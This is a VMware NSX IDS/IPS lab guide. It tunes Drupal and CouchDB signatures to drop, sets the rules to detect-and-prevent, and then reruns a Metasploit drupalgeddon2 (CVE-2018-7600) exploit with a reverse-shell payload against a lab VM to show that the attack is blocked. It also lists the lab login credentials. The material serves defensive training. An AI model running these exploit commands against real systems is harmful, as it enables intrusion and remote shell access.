 
## 8. Preventing an Attack
**Estimated Time to Complete: 30 minutes**

In this exercise, we will show how the NSX Distributed IDS/IPS can just detect but also prevent an attack. We will run the same attack scenario as before.

**Tune the Web-FrontEnd Profile**

In order to prevent an attack, we need to both change the mode in our IDS/IPS rule(s) to **detect and prevent** and ensure that relevant signature actions are set to either **drop** or **reject**.
The default VMware-recommend signature action can be overrided both at the global level, or within a profile. For the purpose of this lab, we will make the modification within the profile.
Besides changing the signature action, you can also disable signatures as the global or per-profile level, which may be needed in case of false-positives.

1. In the NSX Manager UI, navigate to Security -->  Distributed IDS/IPS --> Profiles
2. Click the 3 dots icon next to the  **Web-FrontEnd** profile and then click **Edit**.
3. Click **Manage signatures for this profile**.
4. In the Filter field, select **Product Affected** and type **drupal_drupal** and click **Apply** to only show the signatures related to Drupal.

![](assets/images/IDPS_POC_56.PNG)

5. You should see a filtered list with 4 signatures (may be different if you have a different signature package version deployed). 
5. For each of the signatures displayed, set the Action to **Drop** or **Reject**. Click **Apply** to confirm.

![](assets/images/IDPS_POC_57.PNG)

6. Click **SAVE** to save the changes to the **Web-FrontEnd** profile.

**Tune the Databases Profile**

Now we will also set the action for signatures related to **CouchDB** in the **Databases** profile to **Drop**.

1. In the NSX Manager UI, navigate to Security -->  Distributed IDS/IPS --> Profiles
2. Click the 3 dots icon next to the  **Databasesprofile** and then click **Edit**.
3. Click **Manage signatures for this profile**.
4. You should see a filtered list with 7 signatures (may be different if you have a different signature package version deployed). 
5. Click the selection box on top to select all signatures.  
6. Click the **ACTION** button on top and choose **Drop** to change the action for all selected signatures to **Drop**. Click **Apply** to confirm.
7. Click **SAVE** to save the changes to the **Databases** profile.

**Change the IDS/IPS Mode to Detect & Prevent**

For each IDS/IPS Rule, you can set the mode to **Detect Only** or **Detect & Prevent**. This mode effecively limits the action that can be taken. When deployed in **Detect Only** mode, the only action that will be taken when a signature is triggerd is an **Alert** will be generated, regardless of the action set for the signature. In **Detect & Prevent** mode on the other hand, the action set on each signature is applied.

1. In the NSX Manager UI, navigate to Security -->  Distributed IDS/IPS --> Rules
2. Click the **>** icon to expand the **NSX IDPS Evaluation** Policy. **ADD POLICY**
3. For both the **App-Tier Policy** and **Web-Tier Policy** rule, change the mode from **Detect Only** to **Detect & Prevent**.

![](assets/images/IDPS_POC_57.PNG)

4. Click **PUBLISH** to commit the changes.

**Open a SSH/Console session to the External VM**
1.	If your computer has access to the IP address you've assigend to the **External VM** (10.114.209.151 in my example), open your ssh client and initiate a session to it. Login with the below credentials. 
    * Username **vmware**
    * Password **VMware1!**
2. **Alternatively**, if your computer does not have access to the **External VM** directly, you can access the VM console from the  physical environment vCenter Web-UI. 

**Initiate DrupalGeddon2 attack against the App1-WEB-TIER VM (again)**
1.	Type **sudo msfconsole** to launch **Metasploit**. Enter **VMware1!** if prompted for a password. Follow the below steps to initiate the exploit. Hit **enter** between every step. 
    * Type **use exploit/unix/webapp/drupal_drupalgeddon2** to select the drupalgeddon2 exploit module
    * Type **set RHOST 192.168.10.101** to define the IP address of the victim to attack. The IP address should match the IP address of **App1-WEB-TIER VM**
    * Type **set RPORT 8080** to define the port the vulnerable Drupal service runs on. 
    * Type **exploit** to initiate the exploit, esbalish a reverse shell
    
2.	Confirm that as a **detect & prevent** policy is applied to the WEB-TIER VMs, the exploit attempt was prevented and no meterpreter session was established. Because the initial exploit was not successful, lateral movement to the iternal segment is also prevented.

```console
msf5 exploit(unix/webapp/drupal_drupalgeddon2) > use exploit/unix/webapp/drupal_drupalgeddon2
[*] Using configured payload php/meterpreter/reverse_tcp
msf5 exploit(unix/webapp/drupal_drupalgeddon2) > set RHOST 192.168.10.101
RHOST => 192.168.10.101
msf5 exploit(unix/webapp/drupal_drupalgeddon2) > set RPORT 8080
RPORT => 8080
msf5 exploit(unix/webapp/drupal_drupalgeddon2) > exploit

[*] Started reverse TCP handler on 10.114.209.151:4444
[*] Exploit completed, but no session was created.
msf5 exploit(unix/webapp/drupal_drupalgeddon2) >

```
**Confirm IDS/IPS Events show up in the NSX Manager UI**
1.	In the NSX Manager UI, navigate to Security -->  Security Overview
2. Under the **Insights** tab, confirm you see a number of attempted intrusion against the  **APP-1-WEB-TIER** workload
![](assets/images/IDPS_POC_61.PNG)
3. Navigate to Security --> East West Security --> Distributed IDS
4. Confirm 2 signatures have fired:
    * Signature for **DrupalGeddon2**, with **APP-1-WEB-TIER** as Affected VM
    * Signature for **Remote Code execution via a PHP script**, with **APP-1-WEB-TIER** as Affected VM
    
    ![](assets/images/IDPS_POC_59.PNG)

5. Now you can drill down into these events. Click the **>** symbol to the left of the **ET WEB_SPECIFIC_APPS [PT OPEN] Drupalgeddon2 <8.3.9 <8.4.6 <8.5.1 RCE Through Registration Form (CVE-2018-7600)** event near the bottom of the table to expand this event. 
    * Confirm that the IP addresses of the attacker and victim match with the **External VM** and **APP-1-WEB-TIER VM** respectlively.
    * click the **green bar (Prevented)** to see details about the exploit attempts. You may see multiple attemts (from different ports) as Metasploit initiated multiple connections

  ![](assets/images/IDPS_POC_60.PNG)

You have now successfully prevented the initial exploit and further lateral movement.
This completes this exercise and the lab. You may continue with some optional exercises. 

This completes this exercise and the lab. You may continue with some optional exercises or read the conclusion (see below links)  

Before moving to the next exercise, folow [these instructions](ClearingIDSEvents.md) to clear the IDS events from NSX Manager

---

[***Next Step : (Optional) 9. Logging to an external collector***](9-Logging.md)
[***Next Step : (Optional) 10. Segmenting the Environment***](10-Segmentation.md) 
[***Next Step : 11. Conclusion***](11-Conclusion.md)
 

